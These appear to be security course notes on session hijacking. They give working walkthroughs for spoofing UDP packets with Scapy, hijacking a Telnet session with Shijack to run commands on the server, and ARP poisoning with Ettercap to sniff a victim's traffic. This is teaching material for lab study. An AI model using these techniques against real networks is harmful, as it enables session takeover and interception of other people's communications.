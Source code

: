 **Instructor: Ashwin Iyer**

#### Session Hijacking:

- Types:
  | Application Level           |   Network Level          |
  |-----------------------------|--------------------------|
  | Sniffing (MITM)             | Sniffing (MITM)          |
  | Session Fixation            | Predicting the sequence  |
  | Session ID Bruteforce       | UDP Session Hijacking    |
  | Session Donation            | DNS Session Hijacking    |
  | XSS                         | Telnet Session Hijacking |
  | Man in the Browser (MITB)   | ARP Poisoning            |
  |                             | IP Spoofing              |
  |                             | SSL Strip                |

---

#### UDP Hijacking (**/w Scapy**)

  - For demonstration purpose we'll create a **UDP server** using **netcat** as follows:
    > $ `nc -vv -n -u -l -p 7777`
    >
    > **listening on [any] 7777 ...**

  - And on the **victim's machine**` as follows:
    > $ `nc -vv -u <udp_server's_ip> 7777`
    >
    > **(UNKNOWN) [<udp_server's_ip>] 7777 (?) open**
    >
    > hi       **<------(This message is typed and sent by the victim to the server server)**

  - #### On the UDP server's side:
    > **hiconnect to [<udp_server's_ip>] from (UNKNOWN) [<victim's_ip>] 63868**    **<------(victim's port)**
    >
    > hi

  - Now using **Scapy** we can craft and spoof a UDP packet from the **attacker's machine** as follows:
    > $ `scapy3`
    >```py
    > >>> i=IP()
    > >>> i.dst="<udp_server's_ip>"
    > >>> i.src="<victim's_ip>"
    > >>> u=UDP()
    > >>> u.dport=7777
    > >>> u.sport=63868
    >```
    > The **victim's source port (63868)** is found from [here](#on-the-udp-servers-side) or in general in real-time the attacker uses **Wireshark** to find active UDP connection and find factors related to the attack. Continuing on,
    >```py
    > >>> payload="YOUHAVEBEENPWNED"
    > >>> packet=i/u/payload
    > >>> packet.display()
    > >>> send(packet)
    >```

  - #### After sending the spoofed packet the following would be seen on the UDP server's side:
    > YOUHAVEBEENPWNED **<------(Spoofed packet payload received by the UDP server)**

---

#### Telnet Hijacking (/w Shijack):
  - Telnet will not check the source IP address from the received packets, and using that we can sniff network and get a sequence of it to start our attack using a tool called [Shijack](https://packetstormsecurity.com/files/24657/shijack.tgz.html)
    - First we connect the **victim's machine** to the telnet server using the following command:
      > $ `telnet <server_ip>`
    - Then we use `shijack-lnx` on the **attacker's machine** to hijack the telnet session as follows:
    - > $ `./shijack-lnx <interface> <spoofed_victim's_ip> <victim's_port> <server's_ip> 23`
      >
       Here the **<spoofed_victim's_ip>** and **<victim's_port>** can be found using a packet capture tool like **Wireshark**.

    - Now on the attacker's machine there appears a message:
      > Got packet! SEQ = 0x\<random_sequence_number\> ACK = 0x\<random_ack_number\>
      >
      which means we've hijacked the session. To check that we can enter a command like `mkdir pwned` and see whether the folder `pwned` is being created on the telnet server

---

#### ARP Spoofing (/w Ettercap):
  > Tricking Host A(generally a **victim's machine**) by saying that the attacker is Host B(generally a **target router**) and tricking Host B by saying that the attacker is Host A. This in result creates a change in the ARP table of both the Host A and B.

-  To perform ARP spoofing we'll use the **Ettercap** GUI tool present by default in most penetration testing linux distros as follows:
    > **[CLICK]** <kbd>...</kbd> > <kbd>Hosts </kbd> > <kbd>Scan for hosts</kbd>

    After scanning all hosts we need to list them down:
    > **[CLICK]** <kbd>...</kbd> > <kbd>Hosts</kbd> > <kbd>Hosts list</kbd>

    Now we need to add the **gateway(generally the router)** as Target 1.
    
    So **[SELECT]** the gateway from the Host list and **[CLICK]** <kbd>Add to Target 1</kbd>.

    Then the target machine, so **[SELECT]** the target ip from the Host list and **[CLICK]** <kbd>Add to Target 2</kbd>.

    Finally **[CLICK]** <kbd>🌐</kbd> and check the following params:
      - [x] Sniff remote connections.
      - [ ] Only poison one-way.
    
    After this the information send from the victim's machine that's unencrypted can be seen in **Ettercap**. Also encrypted communication channel communicating, their headers can be seen using **Wireshark** (unless a VPN is not used by the victim!) which at least lets us know what all websites are being visited by the victim.

---
